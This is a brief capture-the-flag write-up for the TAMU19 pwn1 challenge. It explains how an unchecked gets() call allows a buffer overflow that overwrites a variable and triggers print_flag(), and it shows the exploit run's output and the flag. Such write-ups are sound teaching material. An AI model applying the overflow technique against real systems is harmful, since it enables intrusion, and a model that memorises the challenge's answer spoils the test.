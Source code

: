 # Tamu19 pwn1

There is a ```gets```, which we can use to overflow into the variable that triggers the ```print_flag()``` function call.

```c
  puts("What... is my secret?");
  gets(local_43);
  if (local_18 == -0x215eef38) {
    print_flag();
  }
```

```bash
[root@pwn:~/tamu19_pwn1]$ python expl.py 
[+] Starting local process './pwn1': pid 1851
[*] Switching to interactive mode
[*] Process './pwn1' stopped with exit code 0 (pid 1851)
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
flag{g0ttem_b0yz}
```